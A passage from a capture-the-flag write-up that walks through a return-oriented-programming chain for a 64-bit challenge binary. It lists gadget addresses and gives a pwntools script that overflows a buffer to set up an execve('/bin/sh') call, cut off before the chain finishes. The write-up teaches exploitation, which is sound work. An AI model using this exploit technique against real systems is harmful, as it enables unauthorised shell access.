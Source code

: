 ```shell
0x4c3208 - 0x4c3210  __libc_atexit
0x4c3220 - 0x4c4958  .bss # <--- this is the address range we care about
0x4c4958 - 0x4c4980  __libc_freeres_ptrs
```

I just chose a small offset from the start of that range just in case bounds were treated weird, but that's probably not necessary :)

Combining all of that together, the following gadget addresses and values have to be added to our payload (something something 8 bytes 64 bit binary :)):

- 0x4019c2 (`pop rdi ; ret`)
- 0x4c3229 (address in .bss section with arbitrary offset, in this case 9)
- 0x404bd2 (`pop rcx ; ret`)
- /bin/sh followed by a null byte to make it 8 bytes
- 0x43b95b (`mov qword ptr [rdi], rcx ; ret`)

Now that we have that out of the way, we can move on to zeroing `rsi` and `rdx` :)

#### rsi (argv) and rdx (envp) - zeros all the way down

These are similar to setting up rax - ROPgadget is able to find pop gadgets for each of these registers:

```
0x000000000040f52e : pop rsi ; ret
0x00000000004018cf : pop rdx ; ret
```

We just need to add zeros after each address to pop into each of the registers.

### Bringing it all together

I'll just include [my solve script](pwnspect.py) here since it's probably more concise than summarizing all of that :)

```python
from pwn import *

if __name__ == "__main__":
    # p = process("./inspect-your-gadgets")
    p = remote("chal.ctf-league.osusec.org", 1311)

    # get all the questions right :)
    p.sendlineafter(b"here: ", b"C")
    p.sendlineafter(b"here: ", b"D")
    p.sendlineafter(b"here: ", b"A")

    # construct ROP payload
    bss_addr = p64(0x4c3220 + 9) # offset of 9 from start because why not :)

    payload = b"A" * 0x28 # buffer overflow up to just before return address

    # set up rax (syscall 59 -> execve)
    payload += p64(0x452477) # pop rax ; ret
    payload += p64(59)

    # set up rdi (pointer to string "/bin/sh")
    payload += p64(0x4019c2) # pop rdi ; ret
    payload += bss_addr
    payload += p64(0x404bd2) # pop rcx ; ret
    payload += b"/bin/sh\x00" # null terminator included to make it 8 bytes
    payload += p64(0x43b95b) # mov qword ptr [rdi], rcx ; ret

    # zero rsi (argv) and rdx (envp)
    payload += p64(0x40f52e) # pop rsi ; ret
    payload += p64(0)
```